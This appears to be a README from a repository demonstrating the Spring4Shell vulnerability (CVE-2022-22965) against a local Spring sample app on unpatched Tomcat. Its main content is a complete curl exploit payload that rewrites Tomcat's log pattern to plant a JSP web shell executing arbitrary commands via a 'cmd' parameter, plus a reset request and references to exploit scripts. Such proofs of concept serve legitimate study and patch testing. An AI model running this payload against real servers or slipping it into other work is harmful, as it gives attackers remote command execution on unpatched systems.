

# CVE-2022-22965 (Spring4Shell) exploit example
Example that shows how Spring4Shell can be exploited to install a web shell in tomcat. The example is based on the [Handling form submission tutorial](https://spring.io/guides/gs/handling-form-submission/)

> If you are looking for mitigation steps for Spring4Shell, head over to the [Spring Blog](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement#suggested-workarounds)

## Requirements
- JDK 9 or newer
- Apache Tomcat in a version that doesn't have a patch for the vulnerability (e.g. [tomcat 9.0.60](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.60/bin/) )

## Quick setup
The [scripts](./scripts) folder contains scripts to setup the environment and run the exploit. To use them, you need to make them executable first: `chmod +x scripts/*`.
The folder contains the following scripts
- **[setup.sh](scripts/setup.sh)**: Downloads apache tomcat, builds and deploys the WAR file and starts tomcat
- **[exploit.sh](scripts/exploit.sh)**: Executes curl commands to install the web shell
- **[reset.sh](scripts/reset.sh)**: Deletes the web shell (shell.jsp under webapps/ROOT) and restarts tomcat

## Manual Setup
### Preparation
1. Build the WAR and deploy it to tomcat: `./mvnw package`
2. Deploy the WAR file to tomcat by copying the generated file from _target/spring4shell-example.war_ to the _webapps_ folder in tomcat.
3. Start the tomcat server: `<TOMCAT_DIR>/bin/catalina.sh start`

You should now be able to navigate to <http://localhost:8080/spring4shell-example/greeting> and see the greeting sample application.

### Instructions
One everything is setup you can send a request with a special payload and headers to install the web shell:
```shell
curl --location --request POST 'http://localhost:8080/spring4shell-example/greeting' \
--header 'prefix: <%' \
--header 'suffix: %>//' \
--header 'c: Runtime' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat='
```
This overwrites the log pattern to generate jsp page that allows to execute shell commands, it also redirects the output to a file called shell.jsp under the ROOT web application. We only want to write this files once (otherwise it keeps appending the content to the JSP file), therefore we reset the pattern in the next request.
```shell
curl --location --request POST 'http://localhost:8080/spring4shell-example/greeting' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-raw 'class.module.classLoader.resources.context.parent.pipeline.first.pattern='
```
This second request also creates the file defined in the first request on disk, since the log is written for every HTTP request. 

Now you can access the web shell under _http://localhost:8080/shell.jsp_, it accepts a parameter called _cmd_ to ass the command to execute. You can for example list the files in tomcat using `ls`:

This shows the content of the tomcat folder.

## Using postman
The [postman](./postman) folder contains a postman collection with the required requests to exploit the vulnerability

## Sources and inspiration
- Spring blog: https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
- Lunasec blog: https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/
- Exploit PoC: https://github.com/FourCoreLabs/spring4shell-exploit-poc
- Spring4Shell Exploit Walkthrough: https://medium.com/geekculture/spring4shell-exploit-walkthrough-9843c0244b68
